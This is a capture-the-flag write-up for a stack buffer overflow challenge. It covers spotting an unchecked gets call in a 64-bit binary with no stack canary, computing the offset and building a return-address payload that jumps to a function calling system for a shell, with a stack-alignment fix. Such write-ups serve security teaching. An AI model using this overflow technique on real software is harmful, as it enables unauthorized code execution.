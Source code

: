 # PWN

## 👻 BOF (solved)

-   Score: 100, Solves: 189

### Problem

[bof](bof/bof)

### Solution

1.  `file bof`

    ```shell
    ➜ file bof
    bof: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=378b751f1056b9026ef636c05439f4550feb8154, stripped
    ```

2.  `checksec` ➜ **disabled CANARY**

    ![bof-checksec](../img/bof-checksec.png)

3.  `ida pro` -> `fn + F5` main

    ```c
    __int64 __fastcall main(__int64 a1, char **a2, char **a3)
    {
      char v4; // [rsp+0h] [rbp-30h]
    
      sub_40069A(a1, a2, a3);
      puts(&s);
      gets(&v4);
      return 0LL;
    }
    ```

     `gets` doesn’t check the input length

    ➜ buffer overflow

4.  distance to `old rbp = 0x30` (not exactly the length of char buffer)

    ➜  `payload = nonsense * 0x30 + (8 bytes to overwrite rbp) + (target return address)`

    | ![](../img/bof-main.png) | ![](../img/bof-main2.png) |
    | -------- | -------- |

5.  find `target return address`

    Target: `system("\bin\sh")`

    ![bof-system](../img/bof-system.png)

    `return to 0x400687` $\because$ function sub_400687 call `system("\bin\sh")`

    ➜  `payload = ‘A’ * (0x30 + 8) + 0x400687`

6.  use `gdb` to test the payload

    ![bof-gdb](../img/bof-gdb.png)

    Crack because the `rsp` value was not 16 byte padded (hex representation didn’t end with `0`)

    ➜  `payload = ‘A’ * (0x30 + 8) + ret + 0x400687`

7.  Get shell.

    ➜ find flag

    ![bof-final](../img/bof-final.png)

